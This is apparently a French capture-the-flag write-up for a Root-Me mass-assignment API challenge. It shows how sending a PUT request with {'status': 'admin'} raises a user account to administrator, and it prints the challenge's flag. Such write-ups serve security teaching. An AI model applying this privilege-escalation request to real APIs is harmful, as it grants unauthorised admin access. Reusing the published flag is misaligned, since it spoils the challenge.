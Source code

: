 ## Challenges

### Serveur Web

### Challenge: API - Mass Assignment

#### Problème

Cette épreuve vous invite à vérifier que tout est sécurisé.

#### Etape1: Creer un User 

Dans cette étape, nous démarrons le défi. Dans la partie api/sign-up, cliquez sur "try out" et remplissez les informations du nouvel utilisateur demandées.

```
{
  "username": "Chayma",
  "password": "Chama"
}
```
Ensuite, cliquez sur "Execute". Un message s'affiche : 

```
{
  "message": "User created successfully"
}
```
Dans la partie api/login, cliquez sur "try out" et remplissez les informations du nouvel utilisateur demandées. 

```
{
  "username": "Chayma",
  "password": "Chama"
}
```
Ensuite, cliquez sur "Execute". Un message s'affiche : 

```
{
  "message": "Logged in successfully"
}
```
Ainsi, l'utilisateur existe et peut se connecter correctement.

#### Etape2: Résolution 

En regardant la vidéo proposée par le défi, on constate que la solution sera en rapport avec les méthodes HTTP.

Sur "Insomnia" (ou "Postman"), copiez l'URL de l'API "http://challenge01.root-me.org:59090/api/user" et effectuez une requête de type "GET" avec le contenu suivant :

```
{
  "username": "Chayma",
  "password": "Chama"
}
```
Dans les headers on active " Content-Type" , puis puis envoyez la requête. Vous obtiendrez le message suivant dans "preview":
```
 {
	
	"note": "",
	"status": "guest",
	"userid": 3,
	"username": "Chayma"
}

```
Pour vérifier les droits de l'utilisateur, effectuez une requête de type "OPTIONS" avec l'URL suivante :

```
http://challenge01.root-me.org:59090/api/user
```
Après avoir envoyé la requête, vous obtiendrez un ensemble d'informations dans les " Headers" , Nous nous intéressons aux droits :

Allow: OPTIONS, GET, PUT

Ainsi, avec la méthode PUT, on peut changer les droits de l'utilisateur. Changeons son statut en "admin". Pour ce faire, effectuez une requête de type "PUT" avec l'URL suivante :

```
http://challenge01.root-me.org:59090/api/user
```
et le contenu suivant :
```
{
  "status": "admin",
}
``` 

**NB :** Si l'utilisateur n'est pas connecté, on ne peut pas accéder à cette page.


#### Solution

Copiez l'URL de l'API "http://challenge01.root-me.org:59090/api/flag" et effectuez une requête de type "GET". Vous obtiendrez le message suivant dans "preview":

```
{
	"message": "Hello admin, here is the flag : RM{4lw4yS_ch3ck_0pt10ns_m3th0d}."
}
```
Le flag est la note de l'utilisateur admin : `RM{4lw4yS_ch3ck_0pt10ns_m3th0d}`.